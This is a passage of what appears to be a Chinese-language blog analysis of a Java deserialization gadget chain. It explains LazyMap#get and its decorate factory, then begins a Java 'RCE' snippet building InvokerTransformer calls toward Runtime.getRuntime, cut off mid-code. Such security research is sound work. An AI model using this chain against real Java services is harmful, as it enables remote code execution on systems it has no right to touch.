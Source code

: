 ### LazyMap#get
gadgets 中的下一个 caller 是`LazyMap#get`
![-w534](media/15923231349853/15923318544689.jpg)
`LazyMap`有两个构造函数
![-w634](media/15923231349853/15923651194681.jpg)
他们的修饰符都是`protected`，无法通过构造函数实例化，可以通过静态方法`decorate`实例化。
![-w801](media/15923231349853/15923656502023.jpg)
所以新的 rce 代码就呼之欲出了
```java
public static void testLazyMap() {
    Class cls = Runtime.class;
    Transformer[] transformers = new Transformer[]{
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
```